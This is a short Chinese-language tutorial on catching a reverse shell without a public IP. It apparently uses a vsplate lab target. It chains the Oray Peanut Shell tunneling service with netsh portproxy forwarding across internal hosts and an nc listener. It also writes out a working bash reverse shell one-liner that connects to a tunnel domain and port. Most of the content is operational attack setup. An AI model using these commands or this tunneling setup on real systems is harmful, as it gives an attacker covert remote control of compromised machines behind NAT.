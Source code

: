 ﻿﻿﻿**不需要公网ip也能反弹shell**

**1、下载花生壳客户端，点击映射数，自动打开web控制台**

下载链接：https://hsk.oray.com/download/

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.001.png)

**2、点击添加映射**

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.002.png)

**3、填入**：

0x01映射类型：tcp

0x02外网域名：2531j09e25.wicp.vip(自动分配的一个)

0x03内网主机：192.168.1.102（花生壳客户端转发流量到内网的一台机器ip）

0x04内网端口：54322(内网的一台机器ip的监听端口)

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.003.png)

**4、192.168.1.102内网主机代理转发netsh设置：**

    netsh interface portproxy add v4tov4 listenaddress=192.168.1.102 listenport=54322 connectaddress=192.168.1.104 connectport=54322

解释：在192.168.1.102机器上开启监听端口54322，转发流量至：192.168.1.104:54322另一台内网机器上，确保IP Hepler服务已开启，监听端口已监听，命令：```netstat -ano | findstr :54322```，备注：```taskkill /pid 95728 /F``` 强制杀死进程,强制杀死后需要开启IP Helper服务

![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.004.png)

**5、192.168.1.104内网主机代理转发netsh设置：**


    netsh interface portproxy add v4tov4 listenaddress=192.168.1.104 listenport=54322 connectaddress=192.168.136.128 connectport=54322


解释：在192.168.1.104机器上开启监听端口54322，转发流量至：192.168.136.128:54322虚拟机上，确保IP Hepler服务已开启，命令： ```netstat -ano | findstr :54322```监听端口已监听，备注：```taskkill /pid 3532 /F ```强制杀死进程

![QQ截图20210911140208](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.005.jpeg)

**6、192.168.136.128虚拟机监听端口：54322，宿主机：192.168.1.104**

执行：

    nc -lvvnp 54322

![QQ截图20210911140816](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.006.jpeg)

**7、执行反弹shell命令,靶机链接：https://www.vsplate.com/labs.php#**

    bash -i &> /dev/tcp/2531j09e25.wicp.vip/19478 0>&1

解释：

2531j09e25.wicp.vip：花生壳web控制台上的域名

19478：花生壳web控制台上的端口


![](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.007.png)

**8、可以看到，成功反弹shell**

![QQ截图20210911141252](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.008.jpeg)

**9、Wireshark抓包分析：**

在机器192.168.1.104抓包，监控Vmware network Adapter VMnet8网卡和无线网卡，可以看到，192.168.1.102向192.168.1.104（本机）发包，然后，192.168.136.1虚拟ip（本机）向192.168.136.128发包

![QQ截图20210911142425](img/Aspose.Words.c4cd015f-2ad8-484e-aaa5-767804ee6f9e.003.png)

**结束！**
